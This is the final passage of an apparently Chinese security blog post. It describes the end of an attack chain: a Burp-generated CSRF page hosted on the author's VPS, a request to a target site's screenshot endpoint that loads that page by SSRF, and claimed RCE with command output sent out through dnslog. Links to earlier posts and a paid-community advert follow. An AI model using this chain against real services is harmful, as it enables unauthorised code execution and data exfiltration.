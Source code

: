   
**0x11**  
  
  
用burp生成csrf poc后，加入自动提交表单的js，然后将其保存在vps上的exp.html中：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTia3MfOWYXa4Ae0kSHLVowGfkaibvUGmhqIzcjMSGegWaErHicCGlrVavJMJXYpqxZCpMqc6RU81jkw/640?wx_fmt=png "")  
  
  
**0x12**  
  
  
最后访问  
```
https://xxx.com/mall-tools/v1-0/tools/screenshot?url=http://vpsip/exp.html
```  
  
实现RCE，用dnslog将命令执行结果外带：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTia3MfOWYXa4Ae0kSHLVowGfynB2OMWJ626Osks6iacd7FVicEvfR1k6mZIVOAVl0ZAh18hgyf3ZBHw/640?wx_fmt=png "")  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5EMr3X76qdKBrhIIkBlVVyuiaiasseFZ9LqtibyKFk7gXvgTU2C2yEwKLaaqfX0DL3eoH6gTcNLJvDQ/640?wx_fmt=png&from=appmsg "")  
  
往期回顾  
  
[一款bp神器](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495880&idx=1&sn=65d42fbff5e198509e55072674ac5283&chksm=e8a5faabdfd273bd55df8f7db3d644d3102d7382020234741e37ca29e963eace13dd17fcabdd&scene=21#wechat_redirect)  
  
  
[挖掘有回显ssrf的隐藏payload](https://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496898&idx=1&sn=b6088e20a8b4fc9fbd887b900d8c5247&scene=21#wechat_redirect)  
  
  
[ssrf绕过新思路](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495841&idx=1&sn=bbf477afa30391b8072d23469645d026&chksm=e8a5fac2dfd273d42344f18c7c6f0f7a158cca94041c4c4db330c3adf2d1f77f062dcaf6c5e0&scene=21#wechat_redirect)  
  
  
[一个辅助测试ssrf的工具](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496380&idx=1&sn=78c0c4c67821f5ecbe4f3947b567eeec&chksm=e8a5f8dfdfd271c935aeb4444ea7e928c55cb4c823c51f1067f267699d71a1aad086cf203b99&scene=21#wechat_redirect)  
  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  